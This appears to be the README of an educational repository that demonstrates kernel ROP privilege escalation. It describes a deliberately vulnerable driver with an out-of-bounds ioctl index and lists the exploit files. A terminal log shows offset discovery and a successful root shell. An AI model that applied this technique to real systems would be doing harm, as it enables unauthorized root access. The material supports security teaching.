 # Linux Kernel ROP demo

This is a vulnerable Linux kernel driver used to demonstrate in-kernel
privilege escalation ROP (Return Oriented Programming) chain in practice. The
article URL for Part 1 is available at
<https://cyseclabs.com/page?n=17012016>.

The driver module is vulnerable to OOB access and allows arbitrary code
execution. An arbitrary offset can be passed from user space via the provided
ioctl(). This offset is then used as the index for the 'ops' array to obtain
the function address to be executed. 
 
* drv.c - vulnerable kernel driver
* trigger.c - user-space application to trigger the OOB access via the provided
  ioctl
* find_offset.py - helper script for finding the correct offset into the "ops" array
* rop_exploit.c - ROP exploit for the "drv.c" kernel driver

The goal is to construct and execute a ROP chain that will satisfy the
following requirements:

* Execute a privilege escalation payload
* Data residing in user space may be referenced (i.e., "fetching" data from
  user space is allowed)
* Instructions residing in user space may not be executed

```
vnik@ubuntu:~$ dmesg | grep addr | grep ops
[  244.142035] addr(ops) = ffffffffa02e9340
vnik@ubuntu:~$ ~/find_offset.py ffffffffa02e9340 ~/gadgets 
offset = 18446744073644231139
gadget = xchg eax, esp ; ret 0x11e8
stack addr = 8108e258

vnik@ubuntu:~/kernel_rop/vulndrv$ gcc rop_exploit.c -O2 -o rop_exploit
vnik@ubuntu:~/kernel_rop/vulndrv$ ./rop_exploit 18446744073644231139 ffffffffa02e9340
array base address = 0xffffffffa02e9340
stack address = 0x8108e258
# id    
uid=0(root) gid=0(root) groups=0(root)
# 
```
